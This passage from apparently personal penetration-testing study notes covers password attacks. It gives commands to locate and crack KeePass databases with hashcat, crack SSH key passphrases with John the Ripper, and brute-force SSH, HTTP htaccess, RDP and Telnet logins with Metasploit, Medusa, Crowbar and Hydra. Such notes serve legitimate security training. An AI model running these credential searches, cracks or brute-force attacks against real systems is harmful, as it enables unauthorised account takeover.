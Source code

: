   ```
- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` search for KeePass database files
- `keepass2john Database.kdbx > keepass.hash` format KeePass database for Hashcat with keepass2john
  - remove `Database:` from `keepass.hash`
- `hashcat -m 13400 keepass.hash wordlist.txt -r hashcat.rule --force` crack the KeePass database hash
  - find the mode of KeePass in Hashcat with `hashcat --help | grep -i "KeePass"`


### SSH Private Key Passphrase

- Prerequisites: found username, old passwords (or common passwords), password policy and private key `id_rsa`
  - `chmod 600 id_rsa` to change the permissions
  - `id_rsa` needs a password
1. `ssh2john id_rsa > ssh.hash` > remove `id_rsa:`
2. For JtR, create a file for the rules in the file `ssh.rule` using the found password policy
   - add `[List.Rules:sshRules]` as the first line of the file
   - add the rules to JtR config `sudo sh -c 'cat /home/kali/Downloads/ssh.rule >> /etc/john/john.conf'`
3. `john --wordlist=ssh.passwords --rules=sshRules ssh.hash`
4. Connect to the ssh service with `ssh -i id_rsa -p <PORT> <user>@<IP>` and insert the found password

### Network Service Attack

**Tools**
- [Metasploit](https://www.metasploit.com/)
- [Medusa](http://h.foofus.net/?page_id=51)
- [Spray](https://github.com/Greenwolf/Spray)
- [Crowbar](https://github.com/galkan/crowbar)
- [THC Hydra](https://github.com/vanhauser-thc/thc-hydra)

### Metasploit

- SSH Brute force: `scanner/ssh/ssh_login`

### Medusa, HTTP htaccess Attack

- `medusa -d` All the protocols medusa can interact with
- ` medusa -h <IP> -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin`
  - `-m` htaccess-protected URL
  - `-h` target host
  - `-u` attack the admin user
  - `-P` wordlist file
  - `-M` HTTP authentication scheme

### Crowbar, Remote Desktop Protocol Attack

- `crowbar --help`
- `crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1`
  - `-b` specify the protocol
  - `-s` target server
  - `-u` username
  - `-c` wordlist
  - `-n` number of threads

### THC Hydra

- `sudo hydra`
- `sudo hydra -L users.txt -P pass.txt <service://server> <options>` launch a dictionary attack
  - `hydra -L users.txt -P pass.txt telnet://target.server` Telnet example
  - `hydra -L users.txt -P pass.txt http-get://target.server` Password protected web resource
  ```